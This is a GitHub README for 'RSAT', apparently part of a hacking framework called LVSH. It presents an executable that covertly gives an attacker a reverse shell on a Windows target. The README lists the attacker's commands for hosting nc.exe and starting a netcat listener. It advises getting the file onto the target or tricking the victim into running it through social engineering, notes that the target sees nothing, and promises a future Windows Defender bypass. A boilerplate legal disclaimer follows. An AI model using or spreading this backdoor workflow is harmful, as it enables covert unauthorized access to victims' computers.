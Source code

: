 # RSAT
**Reverse Shell Attacking Terminal(RSAT)** is an executable application which can be used to remotely access _a target computer_ from the _attackers computer_ using a service named as **netcat**. **RSAT** is currentely only available to **linux based computers and windows based computers.** Essentially, **RSAT has simply automated the netcat service and made it applicable to** _the backdoor of the target system_so that the user does not know. **RSAT** is a part of the LVSH project which is a hacking framwork  under development. The user must read the full README.md before using the program for smooth and appropriate use.

# How does it work?
The attackers computer has to be  _a linux based computer(recommended kali linux)_ the attacking computer shall have netcat installed,

The attacker shall execute **the following commands in their terminal:**

    sudo cp /usr/share/windows-resources/binaries/nc.exe /var/www/html/nc.exe
    sudo systemctl start apache2.service
    nc -nlvp 1234

These commands **start a server and start listening on ** a port named _1234_, the output of these commands should be like so:

      listening on [any] 1234 ...

After doing so, the attacker must simply implant or send the target the **LVSH RSAT** executable into the target computer, then the hacker shall make the target execute it using social engineering **skills or the hacker can execute the .exe file ** when he _implants the file _.

After this the target computer will **not be seeing anything and the ** _program will run infinitly unless the system is restarted or turned off_.

Then the attackers computer will have access to the **target computers shell which the attacker can use to access the device :-)**

**NOTE: THE TARGET COMPUTER HAS TO HAVE WINDOWS DEFENDER DISABLED, THE LVSH PROJECT IS WORKING ON BYPASSING THIS IN THE NEXT VERSION., THE COMMANDS FOR THE ATTACKER ARE LINUX BASED ONLY WHILE THE COMMANDS OF THE TARGET ARE WIN BASED ONLY.*

# Terms & Conditions

Disclaimer: Legal and Responsible Use Statement

The following statement serves as a disclaimer to emphasize the importance of using any program, tool, or software for lawful and ethical purposes only. We strongly discourage and condemn the use of our program for illegal hacking activities or any malicious intent. By using this program, you agree to the terms and conditions outlined below:

Lawful Use: You acknowledge that the program provided is intended solely for legal and ethical purposes. You agree to utilize the program in accordance with local, national, and international laws, regulations, and guidelines.

Prohibited Activities: You agree not to engage in any activities that are illegal, unethical, or harmful to others. This includes, but is not limited to, unauthorized access to computer systems, data breaches, identity theft, malicious attacks, or any actions that compromise the security and privacy of individuals or organizations.

Personal Responsibility: You accept full responsibility for your actions and the consequences that may arise from using the program. You understand that any misuse or illegal activity associated with this program may result in legal penalties, including but not limited to civil and criminal liability.

No Endorsement: The program provider does not endorse or support any illegal or malicious use of the program. We strictly promote ethical conduct, lawful practices, and respect for privacy and security.

Educational and Research Purposes: This program may be used for educational and research purposes to enhance knowledge, improve cybersecurity practices, and promote responsible technology use. However, it should be used solely in controlled environments with appropriate permissions and consents.

Ethical Guidelines: We encourage users to follow established ethical guidelines and respect the rights, privacy, and security of others. Use the program to enhance your understanding, contribute positively to the field, and protect digital ecosystems.

No Warranty: The program is provided "as is" without any warranties, express or implied. The program provider shall not be held responsible for any damages, losses, or liabilities incurred by the user or any third party as a result of using the program.

By using this program, you acknowledge that you have read and understood this disclaimer and agree to abide by its terms and conditions. You further understand that violation of this disclaimer may result in the termination of your access to the program and potential legal consequences.

Remember, technology should be used responsibly, ethically, and legally to ensure a safe and secure digital environment for all. 



    PS: **PROGRAM MADE BY LVSH PROJECT AKA LOSTOLIIE **

